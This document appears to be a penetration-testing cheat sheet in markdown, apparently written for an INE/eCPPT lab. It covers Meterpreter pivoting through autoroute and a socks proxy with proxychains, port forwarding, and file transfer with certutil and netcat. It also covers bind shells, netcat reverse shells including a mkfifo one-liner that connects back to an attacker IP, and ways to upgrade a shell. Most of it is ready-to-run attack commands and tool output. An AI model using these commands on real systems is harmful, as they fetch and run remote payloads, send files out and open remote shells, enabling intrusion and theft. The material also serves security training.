 

# Summary

- [[Tricks And Co#Pivoting|Pivoting]]
	- [[Tricks And Co#Meterpreter|Meterpreter]]
- [[Tricks And Co#File Transfer|File Transfer]]
	- [[Tricks And Co#Certutil (Windows)|Certutil (Windows)]]
	- [[Tricks And Co#Netcat|Netcat]]
- [[Tricks And Co#Bind Shell|Bind Shell]]
- [[Tricks And Co#Reverse Shell|Reverse Shell]]
	- [[Tricks And Co#Netcat|Netcat]]
		- [[Tricks And Co#Basic|Basic]]
		- [[Tricks And Co#Mkfifo|Mkfifo]]
- [[Tricks And Co#Upgrading Shells|Upgrading Shells]]

# Pivoting

IF YOU PIVOT, TRY OTHER PAYLOAD LIKE BIND !!

## Meterpreter 

Write UP : [Medium](https://medium.com/@0xMat10/netbios-hacking-ecppt-lab-89ccd871f125)

If you have a meterpreter session, you can pivot with the `autoroute` script :

```bash
meterpreter > run autoroute -s 10.2.30.72/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.2.30.72/255.255.240.0...
[+] Added route to 10.2.30.72/255.255.240.0 via 10.2.27.151
[*] Use the -p option to list all active routes
meterpreter >
```

Where `10.2.30.72` is the IP Address accessible only on the network.
Where `/20` is the subnet. Run `ipconfig/ifconfig` on the host to check.

Then, you need to setup a socks proxy :
```bash
# Background your session :
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) >

# Use the following Metasploit Module :
msf6 exploit(windows/smb/psexec) > use auxiliary/server/socks_proxy

# Set options :
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050 # Default ProxyChains port
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
VERSION => 4a
msf6 auxiliary(server/socks_proxy) > exploit
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/socks_proxy) >
```

Finally, use **ProxyChains** to use tools like **Nmap**, ... :
```bash
proxychains -q nmap -p445 demo1.ine.local -Pn -sT
```

**USE `-sT`. IF YOU USE SYN SCAN, IT WILL DISPLAY FILTERED !!!**

**Alternative to autoroute script** : 
```bash
# Metasploit Module :
use post/multi/manage/autoroute

# Set options :
set SESSION <ID>
set NETMASK 255.255.240.0
set SUBNET <IP>
set CMD add
```

You will have this message :
```bash
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ATTACKDEFENSE
[*] Adding a route to 10.2.30.72/255.255.240.0...
[+] Route added to subnet 10.2.30.72/255.255.240.0.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) >
```

## Port Forwarding 

With your meterpreter session, you can forward a remote port : 
```bash
meterpreter > portfwd add -l 10022 -p 22 -r 192.168.0.12
```

Where  :
	- `-l` : Your local port
	- `-p` : Remote port *(Target)*
	- `-r` : Remote host *(Target)*


# File Transfer


## Certutil (Windows)

You can download a file with the `certutil.exe` software :
```cmd
certutil.exe -urlcache -f http://<YOUR-SERVER>/file.exe bad.exe
```

## Netcat

On the target :
```bash
nc -l -p 1234 > out.file
```

Attacker :
```bash
nc -w 3 <IP> <PORT> < file.txt
```

*Works on both Windows and Linux.*


# Bind Shell

When the attacker connect itself to the target.

Target :
```bash
# Windows : 
.\nc.exe -lvnp 1234 -e cmd.exe

# Linux :
nc -lvnp 1234 -e /bin/sh
```

Attacker :
```bash
nc -vn <IP> <PORT>
```

# Reverse Shell

## Netcat

### Basic

Setup a listener with :
```bash
nc -lvnp 1234
```

Connect to attacker with : 
```bash
# Linux :
nc -e /bin/sh <IP> <PORT>

# Windows :
.\nc.exe -e cmd.exe <IP> <PORT>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


# Upgrading Shells

- Spawn interactive shell :
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
export SHELL=bash
```
